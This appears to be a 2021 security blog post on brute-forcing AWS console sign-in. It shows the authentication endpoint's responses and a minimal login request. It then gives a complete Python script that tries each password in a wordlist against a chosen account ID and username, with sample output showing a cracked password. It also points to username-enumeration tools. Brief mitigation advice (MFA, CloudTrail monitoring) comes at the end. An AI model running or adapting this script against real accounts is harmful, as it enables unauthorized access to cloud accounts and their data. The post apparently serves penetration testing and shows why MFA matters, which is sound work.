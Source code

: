 ```yaml
---
title: How to brutefore AWS console sign-in
date: 2021-09-15 10:34:00 -0500
tags: [Research, AWS]
---
```


## Introduction
I saw some vendors have a detection rule about AWS Console brute force login and I was curious if there any AWS console brute force tool. So I start google but found nothing and I think there should be a way to brute force.


&nbsp;
## How does console sign in work?
When you click "Sign in" the console will send login data to https://signin.aws.amazon.com/authenticate and return a response
 
if the user enable MFA:
```json
{
  "state": "SUCCESS",
  "properties": {
    "result": "MFA",
    "mfaType": "SW",
    "header": "Multi-factor Authentication",
    "cancelLink": "https://console.aws.amazon.com/console/home?fromtb=true&hashArgs=%23&state=hashArgsFromTB_us-east-1_4301e3df13c998fe",
    "text": "Enter an MFA code to complete sign-in."
  }
}
```

Login success:
```json
{
  "state": "SUCCESS",
  "properties": {
    "result": "SUCCESS",
    "redirectUrl": "https://console.aws.amazon.com/console/home"
  }
}
```

Incorrect username/password:
```json
{
  "state": "FAIL",
  "properties": {
    "result": "FAILURE",
    "text": "Your authentication information is incorrect. Please try again."
  }
}
```

Missing some header:
```html
There seems to be a problem with your session. Or you are trying to access an AWS region that is not enabled for your account. <br />
 If the problem persists try clearing your browser cookies or <a href="https://console.aws.amazon.com/iam/home?region=us-east-1" target="_blank">sign in into the US East region</a>.
We apologize for the inconvenience.<br />
```

Missing some POST data :
```json
{
  "state": "FAIL",
  "properties": {
    "Message": "Invalid request",
    "Title": "Bad Request",
    "header": "Bad Request",
    "text": "Invalid request"
  }
}
```

So I remove unnecessary parameters the request will look like this :


```python
import requests

headers = {
    'Referer': 'https://signin.aws.amazon.com/oauth?client_id=arn%3Aaws%3Asignin%3A%3A%3Aconsole%2Fcanvas&code_challenge=HX2l8ZYWg_5-bz_ed-RChnM-GNqJFbWBiDBbtq1-HVQ&code_challenge_method=SHA-256&response_type=code&redirect_uri=https%3A%2F%2Fconsole.aws.amazon.com%2Fconsole%2Fhome%3Ffromtb%3Dtrue%26hashArgs%3D%2523%26isauthcode%3Dtrue%26state%3DhashArgsFromTB_us-east-1_5674597973dd3cd0&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEKv%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLWVhc3QtMSJGMEQCIFTWCIdWxMlnFxwHYxlpNxADKYyFjHxvuQqbiITcIZguAiB3o%2FsGsv9UbgQWi8UWH5r%2FgBHNK4%2FIaYM0brhqI%2BcpzyqTAgiD%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAEaDDM1ODgyMTg4MDU2NSIMAtX%2BUfkVugJIEPKoKucBprpcJ0aOyAwP%2FHCPbyTIR1HkK%2F1XdC2dh2cdoPBpkSu%2FXgSLjtuRat4ZoPpIN9PtFCU8zYVhWhf%2BMRThkEDK1tUx8zwjPoE%2B%2BfwkBhBNXGmeptTDfprZ7LosegbiJe86zT8o3VOv4%2FE0tmJHcnSrsbEhM87AikUQvobKY6Lr4JlqU7MM3uuU6pxf7Vz1sagypCfcj%2FSKPlOqsFzmGyFpd9W4KNN%2BWceq9rGLmvHUbKOnN64I73uxWVH%2Bsj10CKgCfw060zjKHfZj41KcNvAazr7HyjT8Qmj1AjsmVw12hc4kobOh6zF8MM6G6oYGOpABiohVmFhrhpvVbITOoSePH7jdiC4my%2B60vDPkj5Av4Euz2Jdb2svTXMRXH82CQkhBl9EhflGz%2BMEp3n2AeJ4ySIajogQPrN0AqGDTQVxxhjcQ24%2F6ueSUC0MsL9irM2tt2Hm%2BHLsZ9zIFF7wSCWtBVVGJsYbcCL659kAWrWuFhXRiofBN7cRvyUZSqO83J2zA&X-Amz-Date=20210629T022227Z&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAVHC3TML2YHA5VWS4%2F20210629%2Fus-east-1%2Fsignin%2Faws4_request&X-Amz-SignedHeaders=host&X-Amz-Signature=11d78bf1043164b982b04e82f0c33a5866bc35cc70e53da3c6d8353ba525719d',
}

data = {
  'action': 'iam-user-authentication',
  'account': '123456789012',
  'username': 'console_user',
  'password': 'password',
  'client_id': 'arn:aws:signin:::console/canvas',
  'redirect_uri': 'https://console.aws.amazon.com/console/home',
}

response = requests.post('https://signin.aws.amazon.com/authenticate', headers=headers, cookies=cookies, data=data)
```
The referer header has an AWS credential that got from the sign-in page but you can just remove GET parameters the request still works. 
so the final playload will look like this:
```python
import requests

headers = {
    'Referer': 'https://signin.aws.amazon.com',
}

data = {
  'action': 'iam-user-authentication',
  'account': '123456789012',
  'username': 'console_user',
  'password': 'password',
  'client_id': 'arn:aws:signin:::console/canvas',
  'redirect_uri': 'https://console.aws.amazon.com/console/home',
}

response = requests.post('https://signin.aws.amazon.com/authenticate', headers=headers, data=data)
print(response.text)


&nbsp;
```
##  Where to find usernames?
You can use a Rhino Security Labs' research [Using AWS Account ID’s for IAM User](https://rhinosecuritylabs.com/aws/aws-iam-user-enumeration/) or Pacu module `iam__enum_users` to enumerate usernames.

&nbsp;
## Brute force password

### Requirements
- AWS account id
- Console username
- Password wordlist

### Prepare a wordlist
if you have a permission `iam:GetAccountPasswordPolicy` or you already know the target account's password policy you should follow that policy
but if you don't I recommend using the default policy as a guideline.

The default user password policy:
-   Minimum password length is 8 characters
-   Include a minimum of three of the following mix of character types: uppercase, lowercase, numbers, and ! @ # $ % ^ & * ( ) _ + - = \[ \] { } | '
-   Must not be identical to your AWS account name or email address

If you want to make sure the wordlist cover all password as possible you can use this

The weakest possible password policy:
-   Minimum password length is 6 characters

### Brute force script

```python
#!/usr/bin/python3
import argparse
import requests

headers = {
    'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
    'referer': 'https://signin.aws.amazon.com',
}

data = {
  'action': 'iam-user-authentication',
  'account': '123456789012',
  'username': 'console_user',
  'password': 'password',
  'client_id': 'arn:aws:signin:::console/canvas',
  'redirect_uri': 'https://console.aws.amazon.com/console/home',
}


requests.urllib3.disable_warnings()

parser = argparse.ArgumentParser()
parser.add_argument('--account-id','-id', required=True, default=False, metavar='account_id', type=str)
parser.add_argument('--username','-u', required=True, default=False, metavar='username', type=str)
parser.add_argument('--wordlist','-w', required=True, default=False, metavar='file_path', type=str)
args = parser.parse_args()

if __name__ == '__main__':
    data['account'] = args.account_id
    data['username'] = args.username
    passwords = open(args.wordlist).read().splitlines()
    for password in passwords:
        data['password'] = password
        response = requests.post(
                'https://signin.aws.amazon.com/authenticate',
                headers=headers,
                data=data,
                verify=False
                )
        if '"result":"SUCCESS"' in response.text:
            print(response.text)
            print("="*20)
            print("Passwrod: ", password)
            break
```
Usage:
```console
./poc.py -id 0123456789012 -u console_user -w passwords.txt
{"state":"SUCCESS","properties":{"result":"SUCCESS","redirectUrl":"https://console.aws.amazon.com/console/home?code\ueyJ6a........................0EqLmrg"}}
====================
Passwrod:  Brut3f0r3_P@ssw0rd
```

&nbsp;
## Mitigation
I recommend enabling MFA for all console users. You can also monitor Cloudtrail log eventName: `ConsoleLogin` if you see a lot fail login attempts in a short period and see login success from the same IP maybe someone got into your account.



&nbsp;
## Conclusion
This technique combined with a Rhino Security Labs' research[1] could be useful when you perform penetration testing AWS accounts and demonstrate how important MFA and strong password policy are necessary to make your AWS account secure.


[1]: https://rhinosecuritylabs.com/aws/aws-iam-user-enumeration/